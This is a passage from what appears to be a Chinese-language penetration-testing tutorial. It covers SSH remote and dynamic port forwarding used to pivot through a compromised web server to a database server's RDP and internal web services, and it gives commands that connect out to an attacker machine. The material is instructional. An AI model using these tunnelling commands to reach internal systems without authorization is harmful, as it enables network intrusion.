 `ssh -CfNg -R 5555:192.168.1.2:3389 root@192.168.1.4`（这条命令的意思是此时的web服务器虽然依旧是跳板，但是无论是连接数据库服务器的3389还是去连接攻击机的5555都是web服务器主动发起）

之后输入攻击机的密码，在攻击机访问本地的5555端口

```
rdesktop 127.0.0.1:5555
```

#### 3.动态转发

在攻击机上：

`ssh -CfNg -D 6000 root@192.168.1.5`（搭建了一个动态的SOCKS代理通道）

之后输入web服务器的密码，查看是否链接成功`netstat -tulnp | grep ":6000"`

然后在本地浏览器设置好socks代理就可访问数据服务器上开放的web服务

